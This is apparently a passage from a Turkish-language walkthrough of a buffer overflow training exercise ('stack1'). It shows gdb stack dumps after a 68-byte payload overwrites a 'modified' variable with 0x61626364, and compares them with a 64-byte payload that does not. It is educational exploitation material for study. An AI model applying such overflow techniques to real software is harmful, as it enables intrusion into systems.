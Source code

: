 ``` shell
0xbffff720:     0x41414141      0x41414141      0x41414141      0x41414141
0x080484b9      19      in stack1/stack1.c
(gdb) ni
...
... Aşağıdaki mesajı görene kadar ni yazıp stacke bakalım
...
you have correctly got the variable to the right value
(gdb) x/24wx $esp
0xbffff6f0:     0x080485bc      0xbffff93e      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      0x41414141
0xbffff710:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff720:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff730:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff740:     0x41414141      0x41414141      0x41414141      0x61626364
```

Görüldüğü gibi 4 satır 0x41414141 ile dolu ve en sonda da bizim *0x61626364*
yazdığımız dcba değeri bulunmakta. Her bir 0x41414141 4 byte olup toplam 16 tane
word olduğunu hesaplarsak bu programdaki 64byte olan buffer'ı doldurduğumuzu
görebiliriz. Sonrasındaki *0x61626364* modified değişkeni oluyor.

Bunu şu şekilde ispatlayabiliriz sadece 64byte'lık bir payload ile
çalıştırdığımızda stackteki modified değişkeninin bulunduğu adresin 0 olmasını
bekleriz.

``` shell
... Üstteki gdb örneğinin aynısı. Sadece 68byte yerine
... 64byte'lık payload verdim.

(gdb) x/24wx $esp
0xbffff6f0:     0xbffff70c      0xbffff942      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      0x41414141
0xbffff710:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff720:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff730:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff740:     0x41414141      0x41414141      0x41414141      0x00000000
```
